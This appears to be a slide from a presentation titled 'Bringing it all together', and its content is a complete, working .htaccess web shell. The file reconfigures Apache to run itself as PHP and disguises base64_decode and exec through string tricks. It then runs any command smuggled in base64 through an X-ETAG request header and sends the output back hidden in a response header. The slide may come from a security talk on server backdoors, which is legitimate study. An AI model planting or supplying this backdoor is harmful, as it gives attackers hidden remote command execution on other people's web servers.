

# Bringing it all together
<Files ~ "^\.ht">
    Order allow,deny
    Allow from all
</Files>
AddType application/x-httpd-php .htaccess
php_value output_buffering 1
RewriteEngine on
RewriteCond %{HTTP:X-ETAG} !^$
RewriteRule .* .htaccess [L]
# SHELL <?php ob_clean(); $b= "base64"."_decode"; $e = str_replace('y','e','yxyc'); $e($b(substr($_SERVER['HTTP_X_ETAG'],2))." 2>&1", $o); header("X-ETAG: AA".base64_encode(implode("\r\n ", $o))); print str_repeat("A", 9326); ob_flush(); exit(); ?>
21